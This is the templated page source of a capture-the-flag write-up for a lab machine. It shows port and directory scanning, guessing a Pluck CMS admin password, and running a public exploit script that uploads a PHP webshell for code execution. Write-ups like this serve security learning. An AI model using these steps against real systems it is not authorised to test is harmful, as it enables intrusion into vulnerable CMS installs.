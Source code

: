 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.2.104", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 04:47 CET
Host is up (0.082s latency).
Not shown: 62276 closed tcp ports (conn-refused), 3257 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 552.74 seconds
")}}

{{text("We discover 2 open ports: ")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("We visit the website on port 80.")}}

{{image("../../static/writeups/lookup/images/000001.jpg")}}

{{text("It is a default page for Apache2. I tried looking at the source code to check if it maybe was modified, but that wasn't the case.")}}

{{text("Let's proceed by scanning for any directories.")}}

{{console("gobuster dir -u http://10.10.2.104 -w /usr/share/wordlists/dirb/common.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.2.104
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/app                  (Status: 301) [Size: 308] [--> http://10.10.2.104/app/]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 276]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================")}}

{{text("We find the <code class='bg-gray-300 rounded-md px-1'>app</code> directory in which we find a <code class='bg-gray-300 rounded-md px-1'>pluck</code> folder.")}}

{{image("../../static/writeups/lookup/images/000002.jpg")}}

{{text("By clicking on the folder, we get redirected to <code class='bg-gray-300 rounded-md px-1'>/app/pluck-4.7.13/?file=dreaming</code> page that has nothing of interest.")}}

{{image("../../static/writeups/lookup/images/000003.jpg")}}

{{text("We continue with directory scanning.")}}

{{console("gobuster dir -u http://10.10.2.104/app/pluck-4.7.13 -w /usr/share/wordlists/dirb/common.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.2.104/app/pluck-4.7.13
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/admin.php            (Status: 200) [Size: 3741]
/data                 (Status: 301) [Size: 326] [--> http://10.10.2.104/app/pluck-4.7.13/data/]
/docs                 (Status: 301) [Size: 326] [--> http://10.10.2.104/app/pluck-4.7.13/docs/]
/files                (Status: 301) [Size: 327] [--> http://10.10.2.104/app/pluck-4.7.13/files/]
/images               (Status: 301) [Size: 328] [--> http://10.10.2.104/app/pluck-4.7.13/images/]
/index.php            (Status: 302) [Size: 0] [--> http://10.10.2.104/app/pluck-4.7.13/?file=dreaming]
/robots.txt           (Status: 200) [Size: 47]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================")}}

{{text("I tried going to <code class='bg-gray-300 rounded-md px-1'>/admin.php</code> but instead I got redirected to <code class='bg-gray-300 rounded-md px-1'>login.php</code> because I wasn't logged in. It contained a form with a password field into which I typed most common passwords I could think of and <code class='bg-gray-300 rounded-md px-1'>password</code> as password worked.")}}

{{image("../../static/writeups/lookup/images/000004.jpg")}}

{{text("After that I started searching for an exploit for <code class='bg-gray-300 rounded-md px-1'>pluck 4.7.13</code>")}}

{{link("https://www.exploit-db.com/exploits/49909", "", "Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)")}}

{{text("This should allow us to get a reverse shell on the target.")}}

{{text("We save the exploit into a file and run it with the correct arguments.")}}

{{console("python3 exploit.py 10.10.2.104 80 password /app/pluck-4.7.13", "Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.2.104:80/app/pluck-4.7.13/files/shell.phar
")}}

{{text("We now go to the provided URL, and have a functioning reverse shell.")}}

{{image("../../static/writeups/lookup/images/000005.jpg")}}
